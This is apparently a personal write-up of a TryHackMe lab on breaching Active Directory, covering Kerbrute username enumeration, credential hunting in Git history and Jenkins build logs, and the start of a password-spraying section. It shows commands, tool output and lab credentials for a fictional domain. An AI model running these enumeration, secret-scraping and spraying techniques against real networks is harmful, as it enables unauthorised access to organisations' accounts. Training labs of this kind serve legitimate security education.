





# Intro to AD Breaching

- [Room information](#room-information)
- [Solution](#solution)
- [References](#references)

## Room information

```text
Type: Network
Difficulty: Medium
Tags: Windows, Active Directory
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
Subscription type: Premium
Description:
Explore AD breaching including username enumeration, password spraying, coercion, and mitigations.
```

Room link: [https://tryhackme.com/room/introductiontoactivedirectorybreaching](https://tryhackme.com/room/introductiontoactivedirectorybreaching)

## Solution

### Network Layout



### Task 1: Introduction

In an Active Directory (AD) environment, everything starts with that first set of valid credentials. Without them, you can't enumerate, you can't move laterally, and you certainly can't escalate privileges. The process of obtaining those initial credentials is what we call breaching.

In this room, we will explore several common techniques attackers use to gain that initial foothold. Starting with nothing more than network access, we will work through a natural attack progression, from reconnaissance and credential hunting through to password spraying and authentication coercion, to obtain valid AD credentials.

#### Learning Objectives

In this room, you will learn:

- The principle and methodology for breaching AD environments
- Enumerating valid usernames with Kerbrute and performing password spraying attacks
- An introduction in to the world of authentication coercion and coercion-based breaches
- Common mitigations to protect against these breaching techniques

#### Prerequisites

Before starting this room, you should be familiar with the following:

- Basic understanding of Windows operating systems
- Ability to use command-line tools in PowerShell or CMD
- Concepts covered in [Active Directory Basics](https://tryhackme.com/room/winadbasics)
- Concepts covered in [Windows Fundamentals](https://tryhackme.com/module/windows-fundamentals)
- Concepts covered in [Introduction to AD Authentication](https://tryhackme.com/room/introtoactivedirectoryauthentication)

#### Starting the Network

Before moving to the next task, click the green **Start** button under the network diagram. Give the network enough time to launch.

You can connect to the network in two ways:

**AttackBox**:

If you are using the Web-based AttackBox, you will be connected to the network automatically if you start the AttackBox from the room's page. You can verify this by running the `ping` command against the IP of the `ROOTDC.THM.LOC` host. You should also take the time to make note of your VPN IP. Using `ifconfig` or `ip a`, make a note of the IP of the `tun0` network adapter. This is your IP and the associated interface that you should use when performing the attacks in the tasks.

**Other Hosts**:

If you are going to use your own attack machine, an OpenVPN configuration file will have been generated for you once you join the room. Click the **Download VPN Profile** button in the Network Control Panel:



Use an OpenVPN client to connect. This example is shown on the [Linux](https://tryhackme.com/access#pills-linux) machine; use this guide to connect using [Windows](https://tryhackme.com/access#pills-windows) or [macOS](https://tryhackme.com/access#pills-macos).

```bash
user@tryhackme:$ sudo openvpn ad-breach.ovpn
2026-05-01 15:30:18 OpenVPN 2.6.14 aarch64-apple-darwin24.2.0 [SSL (OpenSSL)] [LZO] [LZ4] [PKCS11] [MH/RECVDA] [AEAD]
2026-05-01 15:30:18 library versions: OpenSSL 3.6.1 27 Jan 2026, LZO 2.10
[....]
2026-05-01 15:30:20 /sbin/ifconfig utun4 192.168.21.2 192.168.21.2 netmask 255.255.255.0 mtu 1500 up
2026-05-01 15:30:20 /sbin/route add -net 192.168.21.0 192.168.21.2 255.255.255.0
add net 192.168.21.0: gateway 192.168.21.2
2026-05-01 15:30:20 /sbin/route add -net 192.168.11.0 192.168.21.1 255.255.255.0
add net 192.168.11.0: gateway 192.168.21.1
2026-05-01 15:30:20 Initialization Sequence Completed
```

The "Initialization Sequence Completed" message tells you you are now connected to the network.

#### DNS Configuration

Before we begin, we need to ensure our attacker machine can resolve the hostnames used in this lab. The network diagram above shows the environment we'll be working with:

|Host|IP Address|Role|
|----|----|----|
|ROOTDC.THM.LOC|192.168.12.100|Domain Controller (AD DS, DNS, Kerberos)|
|SERVER1.THM.LOC|192.168.12.51|File Server (writable SMB share)|
|WRK.THM.LOC|192.168.12.61|Employee Workstation|
|WebServer|192.168.12.71|Internal services (Gitea, Jenkins, Printer)|

The WebServer hosts three services behind an Nginx reverse proxy, each accessible via its own hostname: `git.thm.loc`, `ci.thm.loc`, and `printer.thm.loc`.

There are two ways to configure name resolution on your attacker machine:

**Option 1**: Use the DC as Your DNS Server (**Other Hosts**)

When using your own attack machine, the domain controller serves as the DNS server for `thm.loc`, so pointing your resolver at it handles all domain lookups automatically:

```bash
user@attackbox:~$ sudo systemctl disable --now systemd-resolved
user@attackbox:~$ echo "nameserver 192.168.12.100" | sudo tee /etc/resolv.conf
```

This is the recommended approach, as it also enables DNS-based enumeration such as SRV record lookups in Task 3. If you need external internet resolution as well, add a second line: `nameserver 1.1.1.1`.

**Option 2**: Static /etc/hosts Entries (**AttackBox**)

On the AttackBox, and if you'd rather not change your DNS configuration, you can add the entries manually:

```bash
user@attackbox:~$ sudo nano /etc/hosts
```

Add the following:

```bash
192.168.12.100    thm.loc
192.168.12.71     git.thm.loc ci.thm.loc printer.thm.loc
192.168.12.51     SERVER1.thm.loc
```

This works for all the practical exercises, but note that SRV record queries in Task 3 will still need to target the DC's IP directly, since `/etc/hosts` doesn't handle SRV records.

If you encounter any issues, please reach out to us on [Discord](https://discord.com/invite/tryhackme) or via email at `support@tryhackme.com`.

---------------------------------------------------------------------------

### Task 2: Active Directory Breaches

#### What is AD Breaching?

Before we start hunting for credentials, let's take a step back and understand what we actually mean by "breaching" Active Directory. In simple terms, AD breaching is the process of obtaining an initial set of valid AD credentials when starting from scratch. It is the very first phase of any AD attack chain. Without that first set of credentials, we can't enumerate the domain, move laterally, or escalate privileges.



#### Why Initial Credentials Matter

It might seem like a single set of low-privileged credentials wouldn't be worth much. After all, a standard domain user can't access sensitive servers or modify AD objects. However, even the most basic domain account opens the door to a significant amount of information. Once authenticated, we can query AD for users, groups, computers, group policies, and trust relationships, information that is typically hidden from unauthenticated users. In many cases, this initial enumeration reveals the misconfigurations and attack paths that lead all the way to Domain Admin. The hardest part is often just getting that first foothold.

#### The AD Attack Surface

A typical AD environment exposes a range of services and protocols that can be targeted during the breaching phase. These include:

- **SMB (TCP 445)**: File shares, printers, and remote administration. Often the first target for password spraying and credential testing.
- **LDAP (TCP 389/636)**: The directory service protocol used to query and manage AD objects. Misconfigured devices often store LDAP credentials that can be recovered.
- **HTTP/HTTPS**: Web-based services such as internal portals, CI/CD platforms, and device management interfaces frequently expose credentials in logs, configuration pages, or code repositories.
- **Kerberos (TCP/UDP 88)**: The domain's primary authentication protocol. Its pre-authentication mechanism can be abused to validate whether usernames exist in the domain.
- **DNS (TCP/UDP 53)**: Used to resolve hostnames within the AD environment and can help us identify key infrastructure such as domain controllers and mail servers.

Each of these services represents a potential avenue for obtaining that first set of credentials, whether through credential discovery, password spraying, or coercion attacks.

#### Starting Positions

In a real engagement, you will typically find yourself in one of two starting positions:

- **Unauthenticated (black-box)**: You have network access but no valid domain credentials. This is the classic initial access scenario. You must enumerate, spray, or coerce your way to a valid account. This is the position we will simulate in this room.
- **Authenticated (grey-box)**: You already have a valid set of low-privileged credentials, perhaps from an earlier engagement phase, a phishing campaign, or an OSINT discovery. From here, you can skip straight to enumeration and look for escalation paths.

Regardless of the starting position, the goal remains the same: obtain valid AD credentials that allow us to move deeper into the environment. In the following tasks, we will work through several common techniques to achieve exactly that.

---------------------------------------------------------------------------

#### What is the first phase of any AD attack chain?

Answer: `Breaching`

#### What service, running on TCP port 88, can be abused to validate whether usernames exist in the domain?

Answer: `Kerberos`

---------------------------------------------------------------------------

### Task 3: OSINT and Target Reconnaissance

Before launching any active attacks against an AD environment, we first need to build an initial picture of the target. In a real engagement, this typically starts with open-source intelligence (OSINT) gathering, collecting information about the organisation and its employees from publicly available sources. The goal at this stage is simple: build a list of potential usernames that we can validate against the domain.

#### Gathering Usernames From OSINT

In practice, there are several public sources where employee names and username formats can be discovered:

- **LinkedIn**: Employee profiles often reveal full names, job titles, and reporting structures. Tools such as [linkedin2username](https://github.com/initstring/linkedin2username) can automate the process of scraping employee names and generating username lists in common formats.
- **GitHub and GitLab**: Developers sometimes commit code using their corporate email addresses, revealing the organisation's email format and individual usernames.
- **Public data breaches**: Breach databases may contain email addresses from the target domain, which directly reveal the username format.
- **Corporate websites**: "About Us" and "Meet the Team" pages frequently list employee names that can be converted into potential usernames.
- **Job listings**: Recruitment posts can reveal internal technologies, team structures, and even naming conventions.

> [!NOTE]  
> In this room's lab environment, we won't be performing real OSINT. Instead, a wordlist of potential usernames has been provided for you. However, understanding where these lists come from in the real world is an important part of the methodology.

#### Common Username Formats

Once you have a list of employee names, the next step is to generate potential usernames. Organisations typically follow a consistent naming convention for their AD accounts. The most common formats include:

|Format|Example (for Jane Smith)|
|----|----|
|first.last|jane.smith|
|firstlast|janesmith|
|flast|jsmith|
|first.l|jane.s|
|first|jane|
|last.first|smith.jane|

The key is to identify which format the target organisation uses. Often, even a single confirmed email address or username from OSINT is enough to determine the convention. From there, you can generate a full list of potential usernames from the employee names you have gathered.

#### Username Enumeration with Kerbrute

As this is a lab, some OSINT has already been performed. Click the **Download Task Files** button in the top-right of this task to get the list of usernames found in the OSINT hunt.

With a list of potential usernames in hand, we can validate which ones actually exist in the target domain using [Kerbrute](https://github.com/ropnop/kerbrute). Kerbrute exploits a behaviour in Kerberos pre-authentication. When we send an Authentication Service Request (AS-REQ) for a username, the Key Distribution Centre (KDC) responds differently depending on whether the account exists:

- If the username **does not exist**, the KDC returns a `KDC_ERR_C_PRINCIPAL_UNKNOWN` error.
- If the username **does exist**, the KDC requests pre-authentication, confirming the account is valid.

This is particularly useful because username enumeration via Kerberos **does not trigger account lockouts**, failed pre-authentication requests are not counted as failed login attempts. However, it does generate Windows Event ID **4768** (Kerberos Authentication Service requests) on the domain controller, so it is not entirely silent.

#### Enumerating Usernames

Place the username wordlist that has been provided in a file at `/root/usernames.txt` on the AttackBox. Let's use Kerbrute to validate these potential usernames against the target domain:

```bash
user@attackbox:~$ kerbrute userenum -d thm.loc --dc 192.168.12.100 /root/usernames.txt
```

Let's break down the parameters:

- `userenum`: The Kerbrute module for username enumeration.
- `-d thm.loc`: The target domain. Kerbrute uses this as the Kerberos realm.
- `--dc 192.168.12.100`: The IP address of the domain controller to send requests to. If omitted, Kerbrute will attempt to resolve a DC via DNS SRV records.
- `/root/usernames.txt`: The wordlist of potential usernames to test.

You should see output similar to the following:

```bash
user@attackbox:~$ kerbrute userenum -d thm.loc --dc 192.168.12.100 /root/usernames.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (XXXXX) - XX/XX/XX - Ronnie Flathers @ropnop

2025/XX/XX 12:00:00 >  Using KDC(s):
2025/XX/XX 12:00:00 >   192.168.x.x:88

2025/XX/XX 12:00:01 >  [+] VALID USERNAME:  jane.smith@thm.loc
2025/XX/XX 12:00:01 >  [+] VALID USERNAME:  bob.taylor@thm.loc
2025/XX/XX 12:00:01 >  [+] VALID USERNAME:  admin.svc@thm.loc
[...SNIP...]
2025/XX/XX 12:00:05 >  Done! Tested XXX usernames (XX valid) in X.XXX seconds
```

Each line marked with `[+] VALID USERNAME` represents a confirmed domain account. These validated usernames now form our target list for subsequent tasks. We will use them for password spraying in Task 5 and they may also appear in credentials discovered in Task 4.

You can save Kerbrute's output to a file using the `-o` flag for easier processing later:

```bash
user@attackbox:~$ kerbrute userenum -d thm.loc --dc 192.168.12.100 /root/usernames.txt -o valid_users.txt
```

#### DNS Enumeration

Alongside username gathering, it is worth performing basic DNS enumeration to identify key services in the AD environment. DNS is the backbone of AD. Domain controllers, mail servers, and other critical infrastructure are all registered as DNS records. A few useful lookups include:

```bash
# Identify domain controllers via SRV records
user@attackbox:~$ nslookup -type=SRV _ldap._tcp.dc._msdcs.thm.loc 192.168.12.100

# Identify the Kerberos KDC
user@attackbox:~$ nslookup -type=SRV _kerberos._tcp.thm.loc 192.168.12.100

# Identify mail servers
user@attackbox:~$ nslookup -type=MX thm.loc 192.168.12.100
```

These queries help us map out the environment before we start launching active attacks. Knowing where the domain controllers, mail servers, and other services sit gives us a clearer picture of the network topology.

---------------------------------------------------------------------------

#### Make sure DNS is configured

If you are using a Kali VM, Network Manager is most likely used as DNS manager. You can use GUI Menu to configure DNS:

- Network Manager -> Advanced Network Configuration -> Your Connection -> IPv4 Settings
- Set your DNS IP here to the IP for THMDC in the network diagram above
- Add another DNS such as 1.1.1.1 or similar to ensure you still have internet access
- Run `sudo systemctl restart NetworkManager` and test your DNS similar to the steps above.

#### How many valid usernames did Kerbrute discover?

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Networks/Medium/Intro_to_AD_Breaching]
└─$ export DC_IP=192.168.12.100    

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Networks/Medium/Intro_to_AD_Breaching]
└─$ ping -c 3 $DC_IP   
PING 192.168.12.100 (192.168.12.100) 56(84) bytes of data.
64 bytes from 192.168.12.100: icmp_seq=1 ttl=127 time=24.7 ms
64 bytes from 192.168.12.100: icmp_seq=2 ttl=127 time=25.0 ms
64 bytes from 192.168.12.100: icmp_seq=3 ttl=127 time=24.8 ms

--- 192.168.12.100 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2004ms
rtt min/avg/max/mdev = 24.733/24.842/24.963/0.094 ms

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Networks/Medium/Intro_to_AD_Breaching]
└─$ kerbrute userenum -d thm.loc --dc $DC_IP usernames.txt -o valid_users.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 08/20/26 - Ronnie Flathers @ropnop

2026/08/20 16:37:23 >  Using KDC(s):
2026/08/20 16:37:23 >   192.168.12.100:88

2026/08/20 16:37:23 >  [+] VALID USERNAME:       ryan.patel@thm.loc
2026/08/20 16:37:23 >  [+] VALID USERNAME:       mary.jenkins@thm.loc
2026/08/20 16:37:23 >  [+] VALID USERNAME:       phillip.green@thm.loc
2026/08/20 16:37:23 >  [+] VALID USERNAME:       claire.ross@thm.loc
2026/08/20 16:37:23 >  [+] VALID USERNAME:       administrator@thm.loc
2026/08/20 16:37:23 >  [+] VALID USERNAME:       emma.clark@thm.loc
2026/08/20 16:37:23 >  [+] VALID USERNAME:       ben.carter@thm.loc
2026/08/20 16:37:23 >  [+] VALID USERNAME:       james.wilson@thm.loc
2026/08/20 16:37:23 >  [+] VALID USERNAME:       laura.wood@thm.loc
2026/08/20 16:37:23 >  [+] VALID USERNAME:       anna.lee@thm.loc
2026/08/20 16:37:23 >  [+] VALID USERNAME:       kevin.shah@thm.loc
2026/08/20 16:37:23 >  [+] VALID USERNAME:       john.harris@thm.loc
2026/08/20 16:37:24 >  [+] VALID USERNAME:       lisa.chen@thm.loc
2026/08/20 16:37:24 >  [+] VALID USERNAME:       sarah.jones@thm.loc
2026/08/20 16:37:24 >  [+] VALID USERNAME:       susan.brooks@thm.loc
2026/08/20 16:37:24 >  [+] VALID USERNAME:       david.grant@thm.loc
2026/08/20 16:37:24 >  [+] VALID USERNAME:       rachel.king@thm.loc
2026/08/20 16:37:24 >  [+] VALID USERNAME:       mike.brown@thm.loc
2026/08/20 16:37:24 >  [+] VALID USERNAME:       hannah.scott@thm.loc
2026/08/20 16:37:24 >  [+] VALID USERNAME:       adam.cole@thm.loc
2026/08/20 16:37:24 >  [+] VALID USERNAME:       nina.kumar@thm.loc
2026/08/20 16:37:24 >  [+] VALID USERNAME:       tom.wright@thm.loc
2026/08/20 16:37:24 >  [+] VALID USERNAME:       kate.miller@thm.loc
2026/08/20 16:37:24 >  [+] VALID USERNAME:       dev.intern@thm.loc
2026/08/20 16:37:24 >  [+] VALID USERNAME:       bob.taylor@thm.loc
2026/08/20 16:37:24 >  [+] VALID USERNAME:       daniel.reed@thm.loc
2026/08/20 16:37:24 >  [+] VALID USERNAME:       alex.foster@thm.loc
2026/08/20 16:37:24 >  [+] VALID USERNAME:       sophie.hall@thm.loc
2026/08/20 16:37:24 >  [+] VALID USERNAME:       olivia.hunt@thm.loc
2026/08/20 16:37:24 >  [+] VALID USERNAME:       lucy.powell@thm.loc
2026/08/20 16:37:24 >  [+] VALID USERNAME:       sam.morgan@thm.loc
2026/08/20 16:37:24 >  [+] VALID USERNAME:       chris.baker@thm.loc
2026/08/20 16:37:24 >  [+] VALID USERNAME:       alice.moore@thm.loc
2026/08/20 16:37:24 >  [+] VALID USERNAME:       mark.robinson@thm.loc
2026/08/20 16:37:24 >  [+] VALID USERNAME:       peter.davies@thm.loc
2026/08/20 16:37:24 >  [+] VALID USERNAME:       amy.fisher@thm.loc
2026/08/20 16:37:24 >  [+] VALID USERNAME:       grace.edwards@thm.loc
2026/08/20 16:37:24 >  [+] VALID USERNAME:       megan.price@thm.loc
2026/08/20 16:37:24 >  [+] VALID USERNAME:       luke.barnes@thm.loc
2026/08/20 16:37:24 >  [+] VALID USERNAME:       jake.hughes@thm.loc
2026/08/20 16:37:24 >  [+] VALID USERNAME:       frank.butler@thm.loc
2026/08/20 16:37:24 >  [+] VALID USERNAME:       zoe.murphy@thm.loc
2026/08/20 16:37:24 >  [+] VALID USERNAME:       svc.jenkins@thm.loc
2026/08/20 16:37:24 >  Done! Tested 101 usernames (43 valid) in 1.464 seconds
```

For unknown reasons `43` is incorrect. THM consider the correct number to be 42!? (The answer to life, the universe and everything? :-)

Answer: `42`

#### What is the organisation's username format?

Answer: `first.last`

---------------------------------------------------------------------------

### Task 4: Credential Discovery

#### Credential Discovery in Exposed Services

One of the most effective ways to obtain initial credentials is to look for them in places where developers and administrators have inadvertently left them. In many organisations, internal services such as Git repositories, CI/CD platforms, and file shares are poorly secured and they frequently contain credentials in plain text. This is often the path of least resistance during the breaching phase, and maps to the MITRE [ATT&CK technique T1552 (Unsecured Credentials)](https://attack.mitre.org/techniques/T1552/).

#### Hunting Credentials in Git Repositories

[Git](https://git-scm.com/) repositories are one of the most common places to find leaked credentials. Even if a secret has been removed from the current version of a file, Git's version history preserves every change. This means we can search through previous commits for sensitive data that was once present.

When you find an accessible Git repository, whether it's an internal GitLab instance, a Gitea server, or a misconfigured `.git` directory exposed via a web server, there are several places to look:

- **Commit history**: Developers often commit credentials "temporarily" and remove them in a later commit. The secret persists in the log.
- **Configuration files**: Files like `.env`, `web.config`, `appsettings.json`, `config.php`, and `database.yml` frequently contain database passwords and API keys.
- **Hardcoded secrets**: Credentials embedded directly in source code, often left behind from development and testing.
- **CI/CD pipeline definitions**: Files like `Jenkinsfile`, `.gitlab-ci.yml`, or `.github/workflows/*.yml` may reference credentials or reveal where secrets are stored.

To manually search through a repository's commit history, we can use `git log` with the `-p` flag to show the diff for each commit, and pipe it through `grep` to look for keywords:

```bash
user@attackbox:~$ git log -p | grep -i "password\|secret\|token\|key\|credential"
```

For a more thorough and automated approach, tools like [TruffleHog](https://github.com/trufflesecurity/trufflehog) can scan an entire repository's commit history for high-entropy strings and known credential patterns:

```bash
user@attackbox:~$ trufflehog git file:///path/to/repo
```

#### Hunting Credentials in Jenkins

[Jenkins](https://www.jenkins.io/) is one of the most commonly encountered CI/CD platforms on internal networks, and it is frequently a treasure trove of credentials. Jenkins instances are often configured with weak or default credentials (such as `admin:admin`), and in some cases, authentication is not enforced at all, allowing anonymous access to the dashboard, build logs, and job configurations.

There are several places where credentials can leak within Jenkins:

- **Build console output**: Build logs often print environment variables, connection strings, or deployment commands that contain credentials in plain text. Even when Jenkins masks credentials with ****, improper Groovy string interpolation or custom scripts can bypass this protection.
- **Job configurations**: The XML configuration for each job (config.xml) may contain hardcoded credentials, especially in older or legacy jobs.
- **Environment variables**: Jenkins exposes environment variables to build steps. If a job prints its environment (e.g., using env or set), stored secrets may be revealed.
- **Workspace files**: Build workspaces may contain source code, configuration files, or deployment artefacts that include credentials.

If you can access the Jenkins web interface, start by browsing the build history and reading through console output for recent builds. You can also access build logs directly via the Jenkins API:

```bash
user@attackbox:~$ curl http://ci.thm.loc/job/JOB_NAME/lastBuild/consoleText | grep -i "password\|secret\|token\|credential"
```

#### Practical Exercise

In your lab environment, there are two exposed services to investigate:

1. **An exposed Git repository**: Browse the repository and its commit history to find any credentials that have been committed. Navigate to [http://git.thm.loc/megacorp-admin/webapp-deploy](http://git.thm.loc/megacorp-admin/webapp-deploy) and see if you can find some passwords!
2. **A Jenkins instance**: Access the Jenkins dashboard and examine the build logs for any leaked credentials. Navigate to [http://ci.thm.loc/](http://ci.thm.loc/) (login with admin:admin) and see if you can get some more!

> [!TIP]
> Don't stop at the first finding. Even if you discover a complete set of credentials (username and password), keep looking. You may find additional accounts, service account names, or password patterns that will be useful in later tasks. A partial finding, such as a username without a password, still has value. You can add it to your list for password spraying in Task 5.

#### Other Sources Worth Checking

While Git repositories and CI/CD platforms are the focus of this task, there are many other places where credentials can be found in a corporate environment. These include:

- **Internal wikis and documentation portals**: Onboarding guides and runbooks often contain default passwords or service account credentials.
- **Configuration files on network shares**: Files such as web.config, bootstrap.ini, and unattend.xml on accessible SMB shares may contain credentials.
- **LDAP anonymous binds**: Some domain controllers allow unauthenticated LDAP queries, which can reveal user accounts and attributes.
- **SNMP community strings**: Default SNMP community strings on network devices can expose device configurations that contain credentials.

These additional sources will be explored in greater depth in later rooms. For now, focus on the Git repository and Jenkins instance in the lab.

---------------------------------------------------------------------------

#### What is the password for the svc.jenkins account found in the Git commit history?

Browsing to `http://git.thm.loc/megacorp-admin/webapp-deploy` and checking the commits we note the comment `Security: remove hardcoded credentials, use environment variables` on one of the commits.

Accessing the this commit (`http://git.thm.loc/megacorp-admin/webapp-deploy/commit/618515d50329c2289639094055823d6929fc46a4`), we find:

```text
<---snip--->
user = svc.jenkins
password = Jen5k1ns2025!
<---snip--->
```

Answer: `Jen5k1ns2025!`

#### What default password was leaked in the Jenkins build logs?

Browse to `http://ci.thm.loc/` and login with `admin:admin`.

We can see three configured jobs:



The most interesting job to check ought to be `webapp-deploy`.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Networks/Medium/Intro_to_AD_Breaching]
└─$ curl -s http://ci.thm.loc/job/webapp-deploy/lastBuild/consoleText | grep -i "password\|secret\|token\|credential"
+ echo     Configuring new user accounts with default password: MegaCorp01!
    Configuring new user accounts with default password: MegaCorp01!
```

Answer: `MegaCorp01!`

---------------------------------------------------------------------------

### Task 5: Username Enumeration and Password Spraying

By this point, we should have a validated list of usernames from Task 3 and potentially some partial intelligence from Task 4, perhaps a default onboarding password, a naming pattern, or even a complete credential pair. If we haven't yet obtained valid credentials, our next approach is to try commonly used passwords against every username we've confirmed. This technique is known as **password spraying**.

#### Password Spraying vs Brute-Forcing

It is important to understand the difference between brute-forcing and password spraying, as the distinction has a direct impact on whether we get results or lock ourselves out:

- **Brute-forcing** targets a single account and attempts many passwords against it. This is effective against weak accounts but will almost certainly trigger account lockout policies in an AD environment.
- **Password spraying** takes the opposite approach: we try a single password against many accounts before moving on to the next password. By limiting the number of authentication attempts per account, we stay below the lockout threshold.

Password spraying works because, despite organisations enforcing complexity requirements, users tend to gravitate towards predictable patterns. Passwords like `SeasonYear!` (e.g., `Summer2025!`), the company name followed by a number (e.g., `MegaCorp01!`), or a default password assigned during onboarding are remarkably common across large user populations.

#### Understanding Lockout Policies

Before spraying, it is critical to understand the target domain's account lockout policy. If the policy locks accounts after 5 failed attempts within a 30-minute window, spraying 3 passwords in quick succession is a recipe for disaster as you will lock out every account on your list.

A safe approach is:

- Spray **one password** at a time across the entire user list.
- Wait for the lockout observation window to reset before attempting the next password.
- If you already have one valid credential from an earlier task, you can query the domain's password policy before you spray. NetExec makes this straightforward:

```bash
user@attackbox:~$ nxc smb 192.168.12.100 -u 'validuser' -p 'validpassword' --pass-pol
